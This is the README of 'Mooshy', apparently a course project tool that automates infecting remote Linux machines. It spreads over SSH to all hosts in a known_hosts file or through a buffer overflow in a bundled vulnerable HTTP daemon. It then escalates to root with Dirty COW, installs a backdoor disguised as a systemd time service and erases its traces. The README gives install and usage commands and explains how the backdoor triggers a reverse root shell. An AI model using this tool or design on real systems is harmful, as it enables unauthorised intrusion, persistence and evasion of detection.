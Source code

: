 [![Build Status](https://travis-ci.com/rvolosatovs/mooshy.svg?token=Rr1zHeZEE84zs4P7sgSv&branch=master)](https://travis-ci.com/rvolosatovs/mooshy)

# Mooshy

[![asciicast](https://asciinema.org/a/zK5uZERZHIAw1TsNng2o8eDqX.png)](https://asciinema.org/a/zK5uZERZHIAw1TsNng2o8eDqX)

## Introduction:

Mooshy is a tool that automates the infection and execution of arbitrary code on remote Linux systems. It has various modes of infection, by means of a buffer overflow and by unprivileged SSH access. After code execution is gained: the Dirty COW exploit is used to gain root privileges. Using these privileges, a backdoor is installed for persistence.

## Installation:
```sh
    go get -u -v github.com/rvolosatovs/mooshy/cmd/mooshy
    make
```

## Generation of the report:
```sh
    make report
```

## Usage:
```sh
    $ mooshy -help                                                       
    Usage of mooshy:
      -addr string
        	The lucky guy
      -moosh string
        	Path to moosh (default "./bin/moosh")
      -ssh
        	Use SSH for the infection
      -sshAgent string
        	Path to SSH agent socket (default "/run/user/1000/gnupg/S.gpg-agent.ssh")
      -sshKey string
        	Path to (passwordless) SSH private key (default "/home/rvolosatovs/.ssh/id_rsa")
      -sshKnown string
        	Path to SSH known_hosts file (default "/home/rvolosatovs/.ssh/known_hosts")
      -sshUser string
        	Username to connect as(e.g. for SSH) (default "averagejoe")
      -useSSHAgent
        	Whether or not use SSH agent
      -useSSHKey
        	Whether or not use (passwordless) SSH private key
      -useSSHKnown
        	Whether or not to try to infect all hosts in SSH known_hosts file
```

# Mechanism of action
The tool operates in 2 modes - infection and execution.

## Infection mode
```sh
   mooshy -ssh -useSSHAgent -sshUser averagejoe -addr 192.168.56.102 # Specific SSH host
   mooshy -ssh -useSSHAgent -useSSHKnown -sshKnown known_hosts -sshUser averagejoe # SSH known_hosts
```
- Connects to the victim machine(s) using either of:
    - SSH:
        - Connects to the `addr` specified and/or all hosts in `known_hosts` file, using either a running SSH agent(with `SSH_AUTH_SOCK` set in environment) or using a password-less private key, which provides access to the machine(s).
        - Copies the `moosh` binary to each victim using SFTP.
    - Buffer overflow of hHTTPd:
        - Connects to the `addr`.
        - Opens reverse shell on the victim machine (TODO).
        - Downloads `moosh` binary in `/tmp` and executes it.
- Executes the `moosh` binary on the victim machine, which:
    - Exploits [Linux kernel vulnerability(CVE-2016-5195)](https://nvd.nist.gov/vuln/detail/CVE-2016-5195) (PoC uses vanilla Ubuntu 16.04 LTS VM) to overwrite a SUID binary(defaults `/usr/bin/passwd`) by shellcode, which sets `/proc/sys/vm/dirty_writeback_centisecs` to `0` and `exec`s `/bin/bash` with `root` privileges(it's a SUID binary owned by `root`). Note, that setting `/proc/sys/vm/dirty_writeback_centisecs` to `0` is required to prevent kernel panic, which would otherwise occur shortly after the execution of exploit due to an invalid state reached, which is triggered by the exploit.
    - Using the "suid root shell" installs the backdoor on the system
    - Creates, enables and starts a `systemd-timesync` systemd service, which launches the backdoor service.
    - Restores the contents of the original binary in it's location and removes all temporary files.

## Execution mode
```sh
   mooshy -addr 192.168.56.102:22 # The port should be any open port
```
- Connects to the infected victim and returns a reverse `root` shell.

# Attack analysis

## Dirty CoW exploit
>  A race condition was found in the way Linux kernel's memory subsystem
>  handled breakage of the read only private mappings COW situation on
>  write access.
>
>  An unprivileged local user could use this flaw to gain
>  write access to otherwise read only memory mappings and thus increase
>  their privileges on the system. ([Source](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#))

## Infection
Once root access is gained through the Dirty CoW exploit, the machine is infected with a persistent backdoor. The binary code for the backdoor is embedded in the `moosh` binary. It creates and enables a new systemd service in `/lib/systemd/system/systemd-timesync.service` and installs the binary as `/lib/sytemd/systemd-timesync`. This name was chosen for its similarity to the existing `systemd-timesyncd` service, to hopefully avoid detection from unsuspecting users. All traces of the exploit are then erased, leaving only the newly installed service. 

## Backdoor
The `systemd-timesync` service creates a raw socket that listens to TCP requests. The raw socket allows the backdoor to listen on all TCP ports with a single socket, while the TCP payload is still handled by the kernel so that normal service by the victim machine is unaffected. When a packet with a specific payload is received, it triggers the backdoor to open a reverse shell to the attacker's machine. The payload consists of a sentinel value, followed by the port number on which the attacker is listening for a reverse shell connection.

The backdoor then opens a new TCP connection to the source IP of the triggering packet, using the specified port. Since the backdoor is run as a systemd service, it has not tty attached. Instead, it uses the `script` executable, which is installed on linux by default, to create a pty and connect it to `/bin/bash`. This opens a fully interactive root shell on the victim's machine, whose input and output are then connected to the opened TCP connection. 

## Buffer overflow
A buffer overflow occurs when more data is put in a buffer than it can hold, leading to overwrite adjacent memory locations being overwritten. This problem can be abused to alter the return address and inject code on the stack.
To illustrate this concept, a vulnerable HTTP daemon (`hHTTPd`) is supplied as a proof of concept. It stores the HTTP request and reflects the path back to the client in the message body. However, if the user requests a path that is too long, it overflows the request buffer. This vulnerability is exploited to gain code execution.
